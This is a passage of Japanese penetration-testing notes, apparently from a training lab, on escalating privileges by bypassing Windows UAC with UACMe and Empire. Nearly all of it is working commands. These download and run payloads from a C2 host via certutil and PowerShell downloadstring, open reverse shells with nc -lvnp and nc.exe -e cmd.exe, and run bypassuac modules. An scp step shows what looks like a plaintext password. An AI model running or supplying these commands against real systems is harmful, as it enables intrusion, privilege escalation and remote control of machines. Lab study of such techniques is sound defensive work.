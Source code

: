      # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/Akagi64.exe" C:\tmp\igarashi\Akagi64.exe
     ```

     ```plaintext
     # kali
     scp rev_10010_iga.exe test-student2@172.17.20.12:~/C2Server/igarashi/
     JwErS2wBLpnSr2G6RYR7Gvb9aWMechni
     
     # ws01
     certutil -urlcache -split -f "http://172.17.20.12:10018/rev_10010.exe" C:\tmp\igarashi\rev_10010_iga.exe
     ```
     
  6. UACMeを実行する

     ```plaintext
     # C2Server
     nc -lvnp 10010
     C:\Users\makise\AppData\Roaming>Akagi64_iga.exe 33 C:\Users\makise\AppData\Roaming\rev_10010_iga.exe
     ```
     
  7. 権限昇格できたことを確認する

     ```plaintext
     whoami /all
     ```
     * Mandatory LabelがHighになっていること

     * sedebugprivilegeがついていること



### Empire powershell

* 事前にhttpリスナ及びlaunch.batのstagerでリバースシェルを取得しておく
* bypassuacのモジュールを何パターンか試す

```
usemodule powershell/privesc/bypassuac_env
execute
```

* Empire powershellのshellが使いづらいので`/home/kali/Documents/tools/nishang/Shells`のpsをリモート実行してリバースシェルを取得する。ps1ファイルの最後に実行するリバースシェルを記載する

  ![image-20230202193255845](img/UACByPass/image-20230202193255845.png)

* 以下コマンドをEmpire powershellで実行する

  ```cmd
  shell "iex(new-object net.webclient).downloadstring('http://192.168.119.133:8080/Invoke-PowerShellTcp.ps1')"
  ```

  ```bash
  nc -lvnp 443
  ```

* mimikatzを使う場合はnc.exeを配送し、ここからさらにリバースシェルを張る

  ```cmd
  .\nc.exe -nv 192.168.119.132 1234 -e cmd.exe
  ```

  
